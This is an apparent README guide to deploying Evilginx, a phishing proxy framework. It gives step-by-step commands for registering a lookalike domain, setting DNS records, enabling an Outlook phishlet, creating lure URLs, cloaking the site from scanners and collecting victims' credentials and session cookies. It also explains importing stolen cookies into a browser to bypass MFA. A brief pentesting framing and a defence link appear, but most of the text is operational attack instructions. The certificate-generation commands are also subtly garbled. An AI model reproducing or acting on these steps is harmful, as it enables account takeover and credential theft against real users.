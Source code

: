# Evilginx Setup Guide

EvilGinx is a man-in-the-middle attack framework designed to capture credentials and session cookies from users interacting with phishing sites. This tool can be used for penetration testing and security assessments, allowing security professionals to simulate phishing attacks and understand the techniques attackers might employ.
Official Documentation can be found [here](https://help.evilginx.com/docs/intro)

## Usage

**IMPORTANT!** Make sure that there is no service listening on ports `TCP 443`, `TCP 80` and `UDP 53`. You may need to shut down Apache or Nginx and any service used for resolving DNS that may be running. **evilginx2** will notify you on launch if it fails to open a listening socket on any of these ports.

By default, **evilginx2** will look for phishlets in `./phishlets/` directory and later in `/usr/share/evilginx/phishlets/`. To specify a custom path for phishlets, use the `-p <phishlets_dir_path>` parameter when launching the tool.

By default, **evilginx2** will look for HTML templates in `./templates/` directory and later in `/usr/share/evilginx/templates/`. To specify a custom path for HTML templates, use the `-t <templates_dir_path>` parameter when launching the tool.

More Tips and Tricks can be found [here](https://github.com/An0nUD4Y/Evilginx2-Phishlets)

### Infrastructure setup 

Buy a domain(NameCheap has cheap domains). Transfer domain to your VPC provider. Create "A" record. 

### NameCheap domain transfer
![NameCheap](NameCheap-Domain.png)
### DigitalOcean DNS Records
![DigitalOcean](DigitalOcean-DNS.png)

### DNS Records

Configure your DNS records as follows:
```
A    account.identity-access.online  
A    *.identity-access.online  
A    outlook.identity-access.online  
A    www.identity-access.online  
A    live.identity-access.online  
A    identity-access.online  
```

#### Installing from source

```
sudo apt-get -y install git make
git clone https://github.com/hash3liZer/evilginx2.git
cd evilginx2
make
```

You can now either run **evilginx2** from local directory like:
```
sudo ./evilginx2
```
or install it globally:
```
sudo make install
sudo evilginx
```

## Installing with Docker

```bash
docker build . -t evilginx2
```
```bash
docker run -it -p 53:53/udp -p 80:80 -p 443:443 evilginx2
```

Phishlets are loaded within the container at `/app/phishlets`, which can be mounted as a volume for configuration.


## Evilginx Commands to Get Started

Set up your server's domain and IP using the following commands:
```bash
config ipv4 external <publicIP>
config domain <yourdomain.com(ex:identity-access.online)>
```

Set up the phishlet you want to use.
```bash
phishlets hostname outlook <yourdomain.com(ex:identity-access.online)>
```

You can now `enable` the phishlet, which will initiate the automatic retrieval of Let's Encrypt SSL/TLS certificates if none are locally found for the hostname you picked:
```bash
phishlets enable outlook
```

Block unauthorized bots/scanners:
```bash
blacklist unauth
```

Your phishing site is now live. Think of the URL where you want the victim to be redirected upon successful login, and get the phishing URL like this (the victim will be redirected to `https://www.google.com`):
```bash
lures create linkedin
lures edit 0 redirect_url https://www.google.com
lures get-url 0
```

Running phishlets will only respond to phishing links generated for specific lures, so any scanners that scan your main domain will be redirected to the URL specified as `redirect_url` under `config`. If you want to hide your phishlet and make it not respond even to valid lure phishing URLs, use `phishlet hide/unhide <phishlet>` command.

You can monitor captured credentials and session cookies with:
```bash
sessions
```

To get detailed information about the captured session, with the session cookie itself (it will be printed in JSON format at the bottom), select its session ID:
```bash
sessions <id>
```

The captured session cookie can be copied and imported into the Chrome browser using the [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) extension.

**Important!** If you want **evilginx2** to continue running after you log out from your server, you should run it inside a `screen` or `tmux` session.

### Alternative Installation Steps

```bash
apt-get update
apt-get upgrade -y
sudo apt install git golang-go -y
git clone https://github.com/kgretzky/evilginx2
cd evilginx2
go build
cd phishlets
git clone https://github.com/ArchonLabs/evilginx2-phishlets.git
cd evilginx2-phishlets/phishlets
mv ./* ../../
cd ../../
./evilginx2
config ipv4 external <publicIP>
config domain identity-access.online
phishlets hostname outlook identity-access.online
phishlets enable outlook
blacklist unauth
lures create outlook 
lures 
lures get-url 0
```

## Local Testing 
Start Evilginx with -developer command-line argument and it will switch itself into developer mode.
In this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
Evilginx will generate a new root CA certificate when it runs for the first time. You can find the CA certificate at $HOME/.evilginx/ca.crt or %USERPROFILE%\.evilginx\ca.crt. Import this certificate into your certificate storage as a trusted root CA and your browsers will trust every certificate, generated by Evilginx.
Since this feature allows for local development, there is no need to register a domain at domain registrars. Just use any domain you want and set the server IP to 127.0.0.1 or your LAN IP:
    ```bash
config domain anydomainyouwant.com
config ip 127.0.0.1
    ```
It is important that your computer redirects all connections to phishing sites, to your local IP address. In order to do that, you need to modify the hosts file.
First, generate the hosts redirect rules with Evilginx, for the phishlet you want:
: phishlets hostname twitter twitter.anydomainyouwant.com
: phishlets get-hosts twitter
    ```bash
127.0.0.1 twitter.anydomainyouwant.com
127.0.0.1 abs.twitter.anydomainyouwant.com
127.0.0.1 api.twitter.anydomainyouwant.com
    ```
Copy the command output and paste it into your hosts file. The hosts file can be found at:
Linux: /etc/hosts
Windows: %WINDIR%\System32\drivers\etc\hosts
Remember to enable your phishlet and you can start using Evilginx locally (can be useful for demos too!).

```bash
    # create self-signed cert
    openssl req -x509 -newkey rsa:2048 -keyout *.identity-access.online -out *.identity-access.online.crt -days 365 -nodes
    mv *.identity-access.online.crt /phishlets
    mv *.identity-access.online.crt /phishlets
    
    ./evilginx -developer
    config autocert off
    test-certs
```

### Protecting Against Phishing Attacks

To learn how web developers can protect against MFA phishing attacks and the use of Evilginx, watch this video: [How Web Developers Can Protect Websites](https://www.youtube.com/watch?v=C-Fh4sIdY8c).

### Creating Phishlets

For guidance on creating phishlets for MFA bypass, refer to this resource: [Creating Phishlets](https://research.aurainfosec.io/pentest/hook-line-and-phishlet/).


